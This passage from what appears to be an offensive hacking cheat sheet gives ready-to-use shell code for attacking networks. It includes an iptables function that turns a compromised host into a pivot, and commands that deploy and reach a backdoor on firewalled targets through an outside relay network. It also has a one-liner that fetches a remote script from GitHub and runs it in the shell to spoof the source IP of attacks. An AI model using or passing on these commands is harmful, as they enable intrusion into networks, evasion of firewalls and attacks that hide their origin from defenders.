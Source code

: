 Bounce through a host/router without needing to run a userland proxy or forwarder:
```sh
ipfwinit() {
    echo 1 >/proc/sys/net/ipv4/ip_forward
    echo 1 >/proc/sys/net/ipv4/conf/all/route_localnet
    [ $# -le 0 ] && set -- "0.0.0.0/0"
    while [ $# -gt 0 ]; do
        iptables -t mangle -I PREROUTING -s "${1}" -p tcp -m addrtype --dst-type LOCAL -m conntrack ! --ctstate ESTABLISHED -j MARK --set-mark 1188 
        shift 1
    done
    iptables -t mangle -D PREROUTING -j CONNMARK --restore-mark >/dev/null 2>/dev/null
    iptables -t mangle -I PREROUTING -j CONNMARK --restore-mark
    iptables -I FORWARD -m mark --mark 1188 -j ACCEPT
    iptables -t nat -I POSTROUTING -m mark --mark 1188 -j MASQUERADE
    iptables -t nat -I POSTROUTING -m mark --mark 1188 -j CONNMARK --save-mark
}
ipfwinit                             # Allow EVERY IP to bounce
# ipfwinit "1.2.3.4/16" "6.6.0.0/16" # Only allow these SOURCE IP's to bounce
```

Then set forwards like so:
```sh
ipfw 31337 144.76.220.20 22 # Bounce 31337 to segfault's ssh port.
ipfw 31338 127.0.0.1 8080   # Bounce 31338 to the server's 8080 (localhost)
ipfw 53 213.171.212.212 443 # Bounce 53 to gsrn-relay on port 443
```

We use this trick to reach the gsocket-relay-network (or TOR) from deep inside firewalled networks.
```sh
# Deploy on a target that can only reach 192.168.0.100  
GS_HOST=192.168.0.100 GS_PORT=53 ./deploy.sh  
```
```sh
# Access the target  
GS_HOST=213.171.212.212 gs-netcat -i -s ...
```

---
<a id="ghost"></a>
**3.vi.c Ghsot IP / IP Spoofing**

Useful on a host inside the target network. This tool re-configured (without trace) the SHELL: Any programm (nmap, cme, ...) started from this SHELL will use a fake IP. All your attacks will originate from a host that does not exist.

```sh
source <(curl -fsSL https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet/raw/master/tools/ghostip.sh)
```

This also works in combination with:
 * [Segfault's ROOT Servers](https://thc.org/segfault/wireguard): Will connect your ROOT Server to the TARGET NETWORK and using a Ghost IP inside the taget network.
 * [QEMU Tunnels](https://securelist.com/network-tunneling-with-qemu/111803/): As above, but less secure.

---